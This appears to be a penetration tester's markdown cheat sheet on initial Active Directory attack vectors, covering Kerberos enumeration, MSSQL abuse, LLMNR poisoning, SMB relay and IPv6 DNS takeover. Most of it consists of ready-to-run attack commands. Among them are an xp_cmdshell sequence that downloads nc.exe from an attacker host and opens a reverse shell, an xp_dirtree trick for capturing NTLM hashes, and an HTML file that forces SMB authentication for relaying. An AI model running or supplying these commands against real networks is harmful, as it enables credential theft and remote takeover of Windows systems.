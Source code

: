 # Phase 0:  Initial attack vectors
---
## Navigation
- **[[#Services enumeration]]**
- **[[#Attacks]]**
	- [[#1-Kerberos]]
	- [[#2-Microsoft SQL Server]]
	- [[#3-LLMNR Poisoning]]
	- [[#4-SMB Relay attack]]
	- [[#5-IPv6 DNS Takeover]]

---
# Services enumeration
## Kerberos
- [**Kerbrute**](https://github.com/ropnop/kerbrute)
```txt
go get github.com/ropnop/kerbrute
```
- [**RPC**](https://www.blackhillsinfosec.com/password-spraying-other-fun-with-rpcclient/)  -> [**Tool**](https://github.com/m4lal0/RPCrecon)
```txt
#Connecting
rpcclient <ip> -U <username>

#Enumerate domain users
enumdomusers

#Enumerate domain groups
enumdomgroups
```

---
# Attacks
## 1-Kerberos
- **impacket-GetNPUsers**: Get users with disabled `Pre-authentication`.
 - **impacket-lookupsid**: Performs bruteforcing of Windows SID’s to identify users/groups on the remote target.
 - **impacket-GetUserSPNs**:  Find Service Principal Names that are associated with a normal user account.
 ```bash
 impacket-GetUserSPNs <DOMAIN>/<USER> -dc-ip <IP> -request
 ```
 - **impacket-GetADUSers.py**: Gather data about the domain’s users and their corresponding email addresses. It will also include some extra information about last logon and last password set attributes. 
 -- *If no entries are returned that means users don’t have email addresses specified*.
 ```bash
 impacket-GetADUsers <DOMAIN>/<USER> -dc-ip <IP>
 ```
 - [**Impacket-Tools**](https://www.hackingarticles.in/abusing-kerberos-using-impacket/)
- [**Kerbrute CheatSheet**](https://gist.github.com/TarlogicSecurity/2f221924fef8c14a1d8e29f3cb5c5c4a)
---
## 2-Microsoft SQL Server
```bash
impacket-mssqlclient <DOMAIN>/<USER>:<PASSWORD>@<IP>
```
### Capturing NTLM hashes
**Pre-requesties**
- Having access to the server.
- Downloading -> [**Responder.py**](https://github.com/SpiderLabs/Responder)

 1- Running Responder
```bash
sudo responder -I tun0 
```
 2- Starting an HTTPSever
```bash
sudo python3 -m httpserver 80
```
 3- Listing a fakeshare to trigger the protocol
```bash
`xp_dirtree "\\<ATTACKER-IP>\meow`
```
 4- Check Responder and take the hash :)
### Gaining a shell
You can execute commands on MsSQL server using:
```bash
EXEC xp_cmdshell '<COMMAND'
```
Then you can upload a `nc.exe`:
```bash
EXEC xp_cmdshell 'powershell -c curl http://<ATTACKER-IP>/nc.exe -o <PATH>'
```
Then trigger it:
```bash
EXEC xp_cmdshell <PATH>/nc.exe -e cmd <ATTACKER-IP> <PORT>'
```
---
## 3-LLMNR Poisoning
**Link-Local Multicast Name Resolution (LLMNR)** and **NetBIOS Name Service (NBT-NS)** are Microsoft Windows components that serve as alternate methods of host identification. **LLMNR is based upon the Domain Name System (DNS) format** and allows hosts on the same local link to perform name resolution for other hosts. NBT-NS identifies systems on a local network by their NetBIOS name.
But this method of host resolution has severe security impact, as when a non-existing host is searched using LLMNR method, it **broadcasts** the search request to every system connected to the local network. As a result, **if any of the systems in local network is somehow compromised by an attacker, it also receives the host search query and can send a response to the victim** (the system which initiated the host resolution query) that it knows the host **and in turn ask for the password hash of the victim**.

![[LLMNR.png]]
### Exploitation
- Use responder to MITM and recieve the hash -> [**Responder.py**](https://github.com/SpiderLabs/Responder)
- [**Tool**](https://github.com/m4lal0/smbrelay)
### Mitigation
- See MITRE **[[#Refrences]]** below.
---
## 4-SMB  Relay attack
SMB signing is a security mechanism that allows digitally signing SMB packets to enforce their authenticity and integrity - the client/server knows that the incoming SMB packets they are receiving are coming from a trusted source and that they have not been tampered with while in transit, preventing man in the middle type attacks.
Instead of cracking the NTLM hashes taken from the LLMNR poisoning attack or any other method we can authenticate using the hash using SMB relay attack but this requires two conditions:
- The victim user must be a local admin.
- SMB signing must be disabled.
### Checking if SMB signing id disabled
```bash 
nmap -p 445 10.0.0.6 -sS --script smb-security-mode.nse
```
### Exploitation
- Either by waiting for somenone to mistyping a domain or by sending an html payload file
#### HTML payload file
```html
<html>
    <h1>holla good sir</h1>
    <img src="file://10.0.0.5/download.jpg">
</html>
```
####  Tool
```bash
smbrelayx.py -h 10.0.0.6 -c "ipconfig" # 'c' is optional to execute commands.
```
### Gaining an shell
```bash
#Tools (Require password)
wmiexec #-> stealthier (Can be used to PASSTHEHASH and get a shell)
psexec #-> stealthier
smbexec #-> not stealthy
```
---
## 5-IPv6 DNS Takeover
Useful and important
- [Delegation attack](https://dirkjanm.io/worst-of-both-worlds-ntlm-relaying-and-kerberos-delegation/)
- [Attack](https://blog.fox-it.com/2018/01/11/mitm6-compromising-ipv4-networks-via-ipv6/)

## Refrence
- [**BLOG Explaning various techniques**](https://adam-toscher.medium.com/top-five-ways-i-got-domain-admin-on-your-internal-network-before-lunch-2018-edition-82259ab73aaa)
- [**LLMNR Poison MITRE**](https://attack.mitre.org/techniques/T1557/001/) **&**  [**LLMNR Poison Meduim**](https://medium.com/@subhammisra45/llmnr-poisoning-and-relay-5477949b7bef)
- [**SMB Relay**](https://www.ired.team/offensive-security/lateral-movement/lateral-movement-via-smb-relaying-by-abusing-lack-of-smb-signing)